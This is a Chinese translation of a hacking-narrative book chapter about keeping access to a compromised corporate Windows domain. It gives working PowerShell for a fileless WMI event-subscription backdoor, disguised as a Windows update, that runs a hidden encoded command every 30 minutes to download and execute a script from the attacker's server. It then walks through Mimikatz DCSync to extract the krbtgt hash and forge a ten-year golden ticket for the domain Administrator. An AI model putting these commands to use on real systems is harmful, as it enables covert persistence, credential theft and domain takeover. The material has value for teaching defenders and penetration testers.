在继续未来的冒险之前，如果由于某种原因无法访问 Citrix 服务器，我们希望"保存"当前的位置：计划外重新启动、禁用帐户等。

我们可以通过PI 0或者Daniel电脑上的Empire代理“重新开始”，但让Citrix服务器每10分钟自动打一次电话回家，确保一切正常，不是很好吗？你当然喜欢这个主意，所以我们忙吧！

解决这个问题的方法有很多：
- 设置在用户登录时执行程序的注册表项（注册表项包含Windows配置。您可以使用regedit.exe实用程序浏览它们。）-对于虚拟化服务器来说非常理想，但根据使用的注册表项，许多基本调查工具都可以检测到它。
- 设置一个计划任务，获取PowerShell脚本并每15分钟执行一次。很可靠但很原始。有效负载将很容易被任何管理人员看到。
- 某种形式的EXE或DLL劫持。我们基本上查找常规工具在启动时可能盲目加载的缺少的DLL或EXE，并将同名的假DLL或EXE放在正确的文件夹中，以使下次工具查找时执行。

这些都是很好的技术，但它们要么太明显，要么需要磁盘上的文件，这并不是很隐蔽。相反，我们将使用一种有趣的“无文件”技术，它依赖于Windows管理规范过滤器（WMI）。

我们已经使用了一个WMI工具来发出RPC函数和执行命令（Linux上的wmiexec和Windows上的wmic.exe）。事实上，它的功能要比这强大得多，因为它提供了与Windows内部组件交互的几乎独一无二的方式。

一个如此有趣的组件是事件筛选器。它可以将计算机上的事件：进程创建、用户登录等与要执行的操作（例如执行命令）联系起来。看到这是怎么回事吗？

我们将使用 WMI 设置事件观察程序，然后指示它执行 PowerShell 命令，该命令在触发事件时将回连。为此，我们设置了三个 WMI 组件：
- WMI 注册事件;它可以是一个简单的30分钟的计时器。
- WMI 注册筛选器，用于监视此事件并在触发时发出警报。
- 一个 WMI 使用者，表示筛选器发出警报后要执行的操作。

我们首先在 PowerShell 中注册 30 分钟的计时器：
```
PS > $TimerArgs = @{
 IntervalBetweenEvents = ([UInt32] 1800000) # 30 min
 SkipIfPassed = $False
 TimerId ="Trigger" }
```

我们基于此计时器创建一个_IntervalTimerInstruction对象。此对象的类是默认命名空间 root/cimv2 的一部分，它包含大多数操作系统类对象和函数。
```
PS > $Timer = Set-WmiInstance -Namespace root/cimv2 -Class
__IntervalTimerInstruction -Arguments $TimerArgs
```

已设置事件。我们现在需要指定一个筛选器来监视触发此事件时。它只是一个"选择"查询，在 Windows 每秒触发的数千个其他事件中查找计时器事件：
```
PS > $EventFilterArgs = @{
 EventNamespace = 'root/cimv2'
 Name = "Windows update trigger"
 Query = "SELECT * FROM __TimerEvent WHERE TimerID = 'Trigger'"
 QueryLanguage = 'WQL'
}
```

和以前一样，我们实例化了属于类的对象__EventFilter类来注册筛选器：
```
PS > $Filter = Set-WmiInstance -Namespace root/subscription -Class
__EventFilter -Arguments $EventFilterArgs
```

理想情况下，我们希望在每次事件触发时执行命令。此命令将从前置服务器下载并执行脚本。

大多数时候，这个脚本都是无害的“hello”，因为我们不需要在机器上生成50000个shell。一旦我们失去了Empire代理的访问权限，我们就可以用一个新的Empire代理替换这个虚假的hello，它将重新建立反向shell访问权限。

我们的负载将像web客户端一样简单，它下载一个文件（当然要考虑代理），然后执行它。我们对负载进行编码，以简化内联命令方式执行，就像Empire一样：
```
PS > $payload = '$browser=New-Object System.Net.WebClient;
$browser.Proxy.Credentials =
[System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString("http://<FrontGun>/script.txt"));'
PS > $EncodedPayload =
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($payload))
PS > $FinalPayload = "powershell.exe -NoP -sta -NonI -W Hidden -Enc
$EncodedPayload"
```

我们将此FinalPayload变量放入ComandLineEventConsumer类的Consumer对象中以注册它：
```
PS > $CommandLineConsumerArgs = @{
 Name = "Windows update consumer"
 CommandLineTemplate = $FinalPayload
}
PS > $Consumer = Set-WmiInstance -Namespace root/subscription -Class
CommandLineEventConsumer -Arguments $CommandLineConsumerArgs
```

最后一步是使用所谓的绑定对象将事件筛选器链接到使用者：
```
PS > $FilterToConsumerArgs = @{
 Filter = $Filter
 Consumer = $Consumer
}
PS > $FilterToConsumerBinding = Set-WmiInstance -Namespace
root/subscription -Class __FilterToConsumerBinding -Arguments
$FilterToConsumerArgs
```

绑定完成后，我们将立即开始从Citrix服务器接收script.txt文件的请求。如前所述，script.txt包含要执行的伪命令。一旦我们失去访问权限，我们只需将其内容替换为一个Empire stager以恢复访问权限。


非常漂亮！（我们可以随意引入一个随机文件名，使用Let'sEncrypt证书的HTTPs和其他很酷的东西。我可能会在以后的博客中详细介绍。作者博客地址https://www.hacklikeapornstar.com/）

磁盘上没有文件，没有自动运行键，只是混淆于Windows 操作。您可以在以下系列中找到类似怪异的持久性技术的其他灵感（作者给出的参阅链接http://www.hexacorn.com/blog/2017/01/28/beyond-good-ol-run-key-all-parts/，目前访问不了，提示权限不足）——不过，不确定它谈论的是WMI过滤器。

如果我们失去了网络接入，我们会有效地将系统隐藏起来。

现在让我们把注意力转向后门领域。目的很简单。即使管理员重置域中的每个密码、删除用户或修补程序服务器，我们也希望保留高度特权访问。

当然，考虑到我们的PI-Zero后门，我们总能重新获得访问权限，找到提升权限的另一种方法，并启动Mimikatz以获取新密码，但这真是一件麻烦事！相反，让我们走另一条路：一条通向 Windows El Dorado的路。为此，我们需要一些有关Windows域身份验证的附加说明，请耐心等待。

为了解决与重放攻击相关的各种NTLM弱点，Microsoft修改并实现了一个名为Kerberos（参阅链接http://www.roguelynn.com/words/explain-like-im-5-kerberos/）的开源身份验证协议。以下是Windows Kerberos身份验证过程中涉及的主要步骤：
- 用户使用其密码散列加密当前时间戳并将其发送到域控制器。
- DC使用存储在Active Directory中的散列解密时间戳，并检查它是否在10分钟的范围内。然后，它发送回一个加密数据块，即包含用户身份和权限的票证授予票证（TGT），只有DC可以解密和读取TGT。
- 稍后，想要访问web服务或网络共享的用户再次与DC联系，并盲目地将TGT连同所需服务的名称一起发回。DC解密TGT，检索用户的身份，并检查他们是否可以访问请求的服务。如果是这样，DC将发回票证授予服务（TGS），这是一个包含用户身份的加密数据块。TGS只能由目标服务读取。
- 用户盲目地将TGS转发到目标服务，目标服务解密数据、检索用户身份并授予访问权限。

我们故意省略了在这个过程中的许多会话密钥交换来对称地加密数据，因为它们不适合我们的直接目的。相反，我们将关注TGT。

如前所述，DC使用唯一密钥对其进行加密，并且在稍后的过程中对其进行信任，以准确反映用户的权限。加密TGT的密钥恰好是帐户krbtgt的密码散列，这是每个Windows域上存在的默认帐户。

如果我们可以访问这个魔术钥匙，我们可以创建我们自己的TGT票
包含我们想要的任何身份。例如，主域管理帐户：Administrator。

通过控制TGT，我们还设置了它的有效期。例如，我们可以让它持续10年，而不是标准的10分钟有效期！不过，真正的好处是，即使管理员的密码被更改，此票证仍然有效。最后，令人惊叹的圣代顶上的樱桃是krbtgt，它允许访问GBSHOP.CORP森林中的所有其他域！

可悲的是，在这个场景中，GBHR和GBSALES是其他林的一部分，但是下次当您使用多个域创建一个林时，一定要记住它！这真的是一个终极的账户后门。

Benjamin Delpy在他的工具Mimikatz中实现了一个生成10年TGT的功能，并将其命名为“黄金票据”！

因此，总而言之，为了获得对域（林）环境的完全持久访问，我们需要krbtgt的密码散列。有多种方法可以处理它：一些非常慢，比如从域控制器中转储Active Directory数据库文件（NTDS.DIT）并解析所有帐户，还有一些非常快，比如DCSync！

事实证明，域控制器会定期交换密码哈希值以委派身份验证。如果我们能模拟一个域控制器，我们可以轻轻地要求任何合法的域控制器的任何帐户的密码哈希！手执域管理员特权账号，我们将使用Mimikatz执行 - 告诉你，这是Windows黑客工具中的终极武器！

但是，在与 DC 通讯之前，我们需要使用 Rachel 的凭据生成会话。我们可能是本地 Citrix 系统上的 NT 权限，但我们需要一个域管理员会话来执行 DC 同步操作：
```
PS > runas /user:GBSHOP\rachel_adm powershell
```


然后，我们使用与之前相同的技巧（invoke-expression）下载 Mimikatz 并在内存中调用它，然后调用 dcsync 选项来获取 krbtgt 的密码哈希：
```
PS > Invoke-mimikatz -Command '"lsadump::dcsync /domain:GBSHOP.CORP
/user:krbtgt"'
```


我们安全地将哈希存储在前置服务器中。要生成黄金票据，我们还需要确定域的 SID：Windows 上的唯一对象标识符：
```
PS C:\users\public> whoami /user
User Name SID
================= =========================
gbshop\rachel_adm S-1-5-21-2376009117-2296651833-4279148973-1116
```

我们删除用户SID的最后一部分以获取域的标识符：s-1-5-21-2376009117-2296651833-4279148973。

然后，我们使用 Mimikatz 创建模拟主要 Windows 域管理员帐户的黄金票据：
```
PS C:\users\public> Invoke-Mimikatz -Command '"kerberos::golden
/admin:Administrator /domain:gbshop.corp
/krbtgt:6a5c12974ec341dd244b693ad4d38369
/sid:S-1-5-21-2376009117-2296651833-4279148973 /ticket:admin.kirbi"'
```


如果下次我们想使用来自新Empire会话的黄金票据时，我们将发出以下命令：
```
PS C:\users\public> Invoke-Mimikatz -Command '"sekurlsa::ptt admin.kirbi"'
```

Mimikatz将把管理员票据插入当前会话，授予我们完全的域管理权限。然后，我们可以在远程服务器上发出WMI命令、执行命令、添加用户等。

丢失黄金票据的唯一方法是更改两次 krbtgt 密码...祝你好运吉布森鸟，看来我们要共度一生了！


> 翻译：Ryan 2020/2/19

